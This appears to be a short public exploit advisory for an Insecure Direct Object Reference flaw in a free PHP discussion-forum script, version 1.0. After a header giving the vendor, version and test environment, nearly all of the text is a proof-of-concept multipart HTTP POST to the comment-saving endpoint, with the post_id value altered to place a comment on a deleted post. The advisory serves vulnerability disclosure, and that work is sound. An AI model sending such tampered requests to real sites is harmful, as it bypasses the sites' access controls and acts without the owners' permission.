 # Exploit Title: Online-discussion-forum-site v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Online-discussion-forum-site v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to create comment to post that is deleted(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /odfs/classes/Master.php?f=save_comment HTTP/1.1
...

------WebKitFormBoundaryH4AwLITcdSV3yGpY
Content-Disposition: form-data; name="post_id"

5(CHANGE HERE)
------WebKitFormBoundaryH4AwLITcdSV3yGpY
Content-Disposition: form-data; name="comment"

<p>hi user1</p>
------WebKitFormBoundaryH4AwLITcdSV3yGpY
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryH4AwLITcdSV3yGpY--
```